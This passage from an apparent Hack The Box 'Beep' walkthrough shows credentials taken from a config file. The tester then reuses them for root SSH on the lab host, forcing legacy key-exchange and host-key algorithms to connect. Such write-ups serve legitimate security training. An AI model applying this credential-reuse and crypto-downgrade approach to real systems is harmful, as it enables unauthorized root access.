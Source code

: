 From the source code, it seems like there are some interesting credentials.

```bash
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

It seems like there’s an admin username and password! This credentials are most probably `ssh` credentials.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Beep]
└─# ssh root@10.10.10.7 
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Beep]
└─# ssh root@10.10.10.7 -oKexAlgorithms=+diffie-hellman-group1-sha1
Unable to negotiate with 10.10.10.7 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Beep]
└─# ssh root@10.10.10.7 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-dss
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
DSA key fingerprint is SHA256:AGaW4a0uNJ7KPMpSOBD+aVIN75AV3C0y8yKpqFjedTc.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (DSA) to the list of known hosts.
root@10.10.10.7's password: jEhdIekWmdjE
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami
root
```

# Privilege Escalation

Lets run `sudo -l` to check if we can run any command with privilege.
